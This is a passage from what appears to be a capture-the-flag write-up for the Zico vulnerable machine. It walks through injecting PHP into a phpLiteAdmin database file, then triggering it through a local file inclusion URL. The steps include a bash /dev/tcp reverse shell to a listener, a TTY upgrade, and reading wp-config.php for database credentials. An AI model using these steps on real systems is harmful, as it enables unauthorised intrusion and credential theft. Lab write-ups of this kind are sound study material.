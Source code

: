 Then, I triggered a reverse shell by navigating to the `hack.php` database file with a `cmd` parameter containing a reverse shell command. The URL looked something like this:

```plaintext
http://192.168.1.23/dbadmin/test_db.php?action=table_create&confirm=1
```

<img width="1366" height="678" alt="image" src="https://github.com/user-attachments/assets/1b370b0d-243d-4696-a1d9-f5d5d63e3859" />


This screenshot shows the phpLiteAdmin interface confirming that a table has been created within `/usr/databases/hack.php`. The `CREATE TABLE` statement includes a PHP reverse shell command, indicating that the shell code has been successfully injected into the database.

The final URL used to trigger the reverse shell was:

```plaintext
http://zico.local/view.php?page=../../../../usr/databases/hack.php
```

<img width="678" height="99" alt="image" src="https://github.com/user-attachments/assets/d7dab586-22d2-42db-b360-d8f6dcc3cf57" />


This screenshot shows the browser's address bar with the URL `zico.local/view.php?page=../../../../usr/databases/shell.php?cmd=/bin/bash -i >& /dev/tcp/192.168.1.6/4444 0>&1`, which is used to execute the reverse shell by leveraging the LFI and the injected PHP code.

I received a reverse shell on my `netcat` listener as the `www-data` user:

```plaintext
Linux zico 3.2.0-23-generic #36-Ubuntu SMP Tue Apr 10 20:39:51 UTC 2012 x86_64 x86_64 x86_64 GNU/Linux
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```

I then upgraded to a proper TTY shell for better interaction:

```shellscript
python -c "import pty;pty.spawn('/bin/bash')"
```

### Privilege Escalation

I explored the system and found a user named `zico`. I then examined the `wp-config.php` file in the `/home/zico/wordpress` directory to find the database credentials for the WordPress installation:

```shellscript
cat /home/zico/wordpress/wp-config.php
```

**Database credentials found:**

```php
define('DB_NAME', 'zico');
define('DB_USER', 'zico');
define('DB_PASSWORD', 'sWfCsfJSPV9H3AmQzw8');
```
